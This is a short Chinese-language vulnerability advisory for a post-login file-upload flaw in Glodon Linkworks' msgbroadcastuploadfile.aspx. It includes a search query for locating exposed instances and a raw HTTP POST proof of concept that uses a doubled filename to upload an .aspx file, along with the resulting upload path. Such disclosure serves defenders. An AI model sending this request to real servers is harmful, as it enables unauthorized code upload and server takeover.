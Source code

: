 # 广联达 Linkworks msgbroadcastuploadfile.aspx 后台文件上传漏洞

# 广联达 Linkworks msgbroadcastuploadfile.aspx 后台文件上传漏洞

## 漏洞描述

广联达 Linkworks msgbroadcastuploadfile.aspx 存在后台文件上传漏洞，攻击者通过SQL注入获取管理员信息后，可以登陆发送请求包获取服务器权限

## 漏洞影响

广联达 Linkworks

## 网络测绘

```
web.body="/Services/Identification/"
```

## 漏洞复现

登陆页面

![image-20230828150337640](images/image-20230828150337640.png)

GTP.IM.Services.Group.WebSite.GTP.IM.Services.Group 存在文件上传，上传后在当前目录 Upload下

![image-20230828150355277](images/image-20230828150355277.png)

通过SQL注入获取管理员账号密码后登陆后台上传文件,验证POC

```
POST /gtp/im/services/group/msgbroadcastuploadfile.aspx HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Cookie: 0_styleName=styleA

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; filename="1.aspx";filename="1.jpg"
Content-Type: application/text

Test

------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

![image-20230828150407255](images/image-20230828150407255.png)

```
/GTP/IM/Services/Group/Upload/xxx-xxx-test.aspx
```

![image-20230828150419196](images/image-20230828150419196.png)

